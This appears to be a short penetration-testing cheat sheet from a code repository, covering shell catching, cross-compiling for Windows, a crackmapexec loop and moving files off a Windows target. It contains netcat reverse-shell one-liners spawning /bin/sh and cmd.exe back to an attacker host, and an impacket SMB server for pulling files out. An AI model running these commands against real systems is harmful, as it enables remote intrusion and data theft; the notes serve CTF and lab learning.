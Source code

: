 # Misc: References, and other stuff

excellent summary of SSH tunneling [here](https://tryhackme.com/room/lateralmovementandpivoting)



## Shell catching, and stabilization

set up listener with: 
```
nc –nvlp ${LPORT} 
```

now, from our Linux target box we can do:

```
nc $LHOST $LPORT -e /bin/sh
```
or Windows:

```
nc.exe $LHOST $LPORT -e cmd.exe
```
Afterwards, stabilize with [this](https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal)

Gain TTY with `python3 -c 'import pty; pty.spawn("/bin/bash")'` or `python3 -c 'import pty; pty.spawn("/bin/sh")'`

## Revshells

[revshells.com](https://www.revshells.com/)

## Cross-compiling C on kali to windows

mingw-w64 is used to cross compile c files to windows exe files.
This can look something like:

`i686-w64-mingw32-gcc some-c-file.c -o out-file.exe -l ws2_32`

Where `-l ws2_32` tells `mingw32-gcc` to include the `ws2_32` DLL in the final executable with static linking. 


## Inline for loop

We want to execute some command for all machines in the file machines.txt. This can be done like so:
```
for machine in $(cat machines.txt); do; crackmapexec smb $machine ...; done;
```
(note, this is just an example, as crackmapexec in fact supports jut getting the machine IPs from a machines.txt file natively).


## File transfer from Windows to Attack box

If you find yourself on a windows shell and want to transfer files from the target to the attack box,
you can start an SMB server on the attackbox:

```
impacket-smbserver SHARE $(pwd) -smb2support -user ${SOME_USERNAME} -password ${SOME_PW}
```
(Note that this makes a public server. Only without setting user/password in CTF scenarios in private networks).

